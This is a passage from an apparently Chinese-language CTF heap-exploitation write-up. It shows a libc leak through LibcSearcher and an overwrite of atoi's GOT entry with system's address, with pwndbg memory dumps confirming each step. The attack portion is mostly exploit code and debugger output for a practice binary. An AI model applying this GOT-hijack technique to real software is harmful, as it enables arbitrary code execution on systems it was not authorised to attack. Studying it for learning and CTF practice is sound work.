 ```
```

执行后查看结果

```
[+] Puts_real:0x7f40196af5d0
Multi Results:
 0: ubuntu-glibc (id libc6-amd64_2.27-3ubuntu1.2_i386)
 1: ubuntu-glibc (id libc6_2.23-0ubuntu3_amd64)
 2: ubuntu-glibc (id libc6-x32_2.27-3ubuntu1_i386)
 3: ubuntu-glibc (id libc6-x32_2.27-3ubuntu1_amd64)
Please supply more info using 
    add_condition(leaked_func, leaked_address).
You can choose it by hand
Or type 'exit' to quit:1
[+] ubuntu-glibc (id libc6_2.23-0ubuntu3_amd64) be choosed.
[+] Offset:0x7f4019640000
[+] System_addr:0x7f4019685380
```

**第7步**：往atoi的got表地址写入system函数地址

```
#此时chunk3的地址即global[3]表示的是atoi_got，这里将system函数的真实地址写入atoi对应的got表中，覆盖atoi真实地址
edit(3,len(p64(system_addr)),p64(system_addr))
```

执行后结果：

```
pwndbg> x /20gx 0x602138
0x602138:	0x6161616161616161	0x6161616161616161
0x602148:	0x0000000000602018	0x0000000000000000
0x602158:	0x0000000000602088	0x0000000000000000     //global[3]存储的地址
0x602168:	0x0000000000000000	0x0000000000000000
0x602178:	0x0000000000000000	0x0000000000000000
0x602188:	0x0000000000000000	0x0000000000000000
0x602198:	0x0000000000000000	0x0000000000000000
0x6021a8:	0x0000000000000000	0x0000000000000000
0x6021b8:	0x0000000000000000	0x0000000000000000
0x6021c8:	0x0000000000000000	0x0000000000000000

pwndbg> x /20gx 0x0000000000602088
0x602088 <atoi@got.plt>:	0x00007f4019685380	0x0000000000000000
0x602098:	0x0000000000000000	0x0000000000000000
0x6020a8:	0x0000000000000000	0x0000000000000000
0x6020b8:	0x0000000000000000	0x00007f4019a04620
0x6020c8:	0x0000000000000000	0x00007f4019a038e0
0x6020d8:	0x0000000000000000	0x0000000000000000
0x6020e8:	0x0000000000000000	0x0000000000000000
0x6020f8:	0x0000000000000000	0x0000000000000003
0x602108:	0x0000000000000000	0x0000000000000000
0x602118:	0x0000000000000000	0x0000000000000000

pwndbg> x /20gx 0x00007f4019685380
0x7f4019685380 <__libc_system>:	0xfa86e90b74ff8548	0x0000441f0f66ffff
0x7f4019685390 <__libc_system+16>:	0x48001471fc3d8d48	0xfffffa70e808ec83
0x7f40196853a0 <__libc_system+32>:	0xc48348c0940fc085	0x001f0fc3c0b60f08
0x7f40196853b0 <__realpath>:	0x56415741e5894855	0xec81485354415541
0x7f40196853c0 <__realpath+16>:	0x48ff8548000000d8	0x840fffffff20b589
0x7f40196853d0 <__realpath+32>:	0x27b60f440000050a	0x840fe48445fe8949
0x7f40196853e0 <__realpath+48>:	0x48f6854800000443	0x00000495840ff189
0x7f40196853f0 <__realpath+64>:	0x00998d482ffc8041	0x00020c840f000010
0x7f4019685400 <__realpath+80>:	0x001000becf894800	0xffffff388d894800
0x7f4019685410 <__realpath+96>:	0xc08548000b1e2be8	0x0fffffff388d8b48
```
